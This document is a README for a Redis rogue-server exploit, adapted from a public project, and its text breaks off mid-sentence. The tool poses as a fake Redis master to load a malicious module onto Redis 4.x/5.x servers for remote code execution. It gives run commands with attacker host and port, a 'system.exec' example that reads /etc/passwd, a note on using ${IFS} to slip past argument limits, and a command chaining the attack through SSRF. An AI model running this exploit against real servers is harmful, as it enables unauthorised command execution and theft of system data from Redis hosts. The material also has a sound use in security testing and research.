 # Redis Rogue Server

Taken and adapted  from [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server).

A exploit for Redis 4.x and 5.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).
Needs to be started before running the RCE redis exploit with vg-exploit as it contains the exec module.

Acts as a fake Redis master host and can upload a shared library to a real Redis.

## Usage:

Compile .so from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

Copy the .so file to same folder with `redis-rogue-server.py` and rename it to `ext.so`.

Run the rogue server:

```
python3 redis-rogue-server.py --lhost <vps address> --lport <vps port>
```

The default target port is 6379 and the default vps port is 6666.

The rogue server will put the `ext.so` on the Redis server and make code execution available like this:

```
$ redis-cli
127.0.0.1:6379> system.exec cat${IFS}/etc/passwd
# will print /etc/passwd from redis host
```

Note that for commands that need spaces, the use of `${IFS}` (internal field separator) as a space 
replacement is required as `system.exec` only takes one argument.

This makes it possible to execute commands via SSRF:
```
vg-exploit redis --target=localhost:3000 --redis-host=localhost:6379 redis_payloads/rce.txt 
```
This will create a new file on the Redis host as proof that RCE worked.
Reverse shell would be nice from there but didn't manage to make it all work.
Could be possible with some reverse shell, but 
